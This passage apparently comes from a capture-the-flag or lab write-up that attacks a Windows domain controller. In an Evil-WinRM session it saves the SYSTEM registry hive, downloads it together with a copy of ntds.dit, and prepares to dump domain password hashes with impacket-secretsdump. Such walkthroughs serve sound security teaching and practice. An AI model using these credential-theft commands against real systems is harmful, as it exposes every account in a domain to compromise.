 ````powershell
	                  1	z:\windows\ntds\
	   New File  		 18.0 m	ntds.dit
  0.0%
````

o carry out this attack, it's essential to also acquire a copy of the **system hive**. Without this, extracting the hashes from the **ntds.dit** file wouldn't be possible.

A **hive** refers to a structured collection of registry keys, subkeys, and values within the Windows registry. It comprises a set of files that are loaded into memory when the operating system boots or when a user logs in. Each user creates a distinct hive upon logging in, which stores their profile data.

In our case, we retrieved the **system hive** from the target machine’s registry and placed it in the **temp** directory.

````powershell
*Evil-WinRM* PS C:\temp> reg save hklm\system C:\Temp\system
The operation completed successfully.
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/4/2025   4:58 PM            619 2025-02-04_16-58-31_DC01.cab
-a----         2/4/2025   1:42 PM       18874368 ntds.dit
-a----         2/4/2025   5:00 PM       17559552 system
-a----         2/4/2025   4:57 PM            108 whare.dsh
````

Next, we simply downloaded the files (this process may take some time).

````powershell
*Evil-WinRM* PS C:\temp> download ntds.dit
                                        
Info: Downloading C:\temp\ntds.dit to ntds.dit
                                        
Info: Download successful!
----------------------------------------------------------------------------
*Evil-WinRM* PS C:\temp> download system
                                        
Info: Downloading C:\temp\system to system
                                        
Info: Download successful!
````

## ROAD TO ADMINISTRATOR
---

### Dumping password hashes 
---
Now, we will use the **impacket-secretsdump** tool to extract the hashes from the **ntds.dit** file.
